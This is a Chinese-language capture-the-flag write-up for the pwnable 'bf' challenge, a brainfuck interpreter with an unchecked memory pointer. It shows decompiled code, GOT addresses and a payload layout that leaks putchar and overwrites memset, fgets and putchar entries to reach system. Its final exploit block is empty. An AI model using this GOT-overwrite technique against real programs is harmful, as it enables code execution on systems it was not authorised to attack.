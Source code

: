 # pwnable--pwn--bf

题目有关brainfuck

main函数

```c
 p = (int)&tape;
  puts("welcome to brainfuck testing system!!");
  puts("type some brainfuck instructions except [ ]");
  memset(s, 0, 0x400u);
  fgets(s, 1024, stdin);
  for ( i = 0; i < strlen(s); ++i )
    do_brainfuck(s[i]);
  return 0;
```

do_brainfuck

```c
result = a1;
  switch ( a1 )
  {
    case '+':
      result = p;
      ++*(_BYTE *)p;                            // 指针指向的内容加1
      break;
    case ',':
      v2 = (_BYTE *)p;
      result = getchar();                       // 输入内容到指针指向的单元内容
      *v2 = result;
      break;
    case '-':
      result = p;                               // 指针指向的内容减1
      --*(_BYTE *)p;
      break;
    case '.':
      result = putchar(*(char *)p);             // 输出指针指向的单元内容
      break;
    case '<':
      result = p-- - 1;                         // 指针减1
      break;
    case '>':
      result = p++ + 1;                         // 指针加1
      break;
    case '[':
      result = puts("[ and ] not supported.");   //while(*ptr){
      break;
    default:
      return result;
  }
  return result;
```

这个程序的功能就是：

0x1  用户输入一段fk程序

0x2  将其翻译并执行   

这里注意：执行时还是在这个进程中 甚至可以说在这个函数中，他并没有任何隔离措施，所以我们可以使用bf来输出和写入这个进程的内存

题目给了个libc.so,估计就是改写got表

main()中的三个函数：puts() ,memset(), fget(). 

memset()和 fgets()的参数都是同一个  我们就将 memset()改为gets(),将fgets()改为system()

memset和fgets的got地址可以利用可执行文件得到

gets和system需要获得偏移地址

那么我们就要得到putchar函数，输出真实地址求偏移

### 第一步 利用bf构造语句输出putchar地址

ptr地址

```
.bss:0804A0A0 tape            db    ? ;               ; DATA XREF: main+6D↑o
.bss:0804A0A1                 db    ? ;
.bss:0804A0A2                 db    ? ;
```

memset_got: 0x804a02c

putchar_got：0x804A030

```
 extrn memset:near       ; CODE XREF: _memset↑j
extern:0804A4C0                                         ; DATA XREF: .got.plt:off_804A02C↑o
extern:0804A4C4 ; int putchar(int c)
extern:0804A4C4                 extrn putchar:near      ; CODE XREF: _putchar↑j
extern:0804A4C4                                         ; DATA XREF: .got.plt:off_804A030↑o
```

bf语句

```
'>'*(0x0804a0a0-0x0804a030)
+'.'				juck code
+'.>'*4             输出putchar全局地址
+'<'*4
+',>'*4				write put_char
+'<'*(4+4)
+',>'*4             write memset
+'<'*(0x2c-0x10+4)
+',>'*4            write fgets
+'.'               最后调用printchar 实际是main
```

main 地址 0x8048671

### 第二步 计算system和get

exp:

```



```

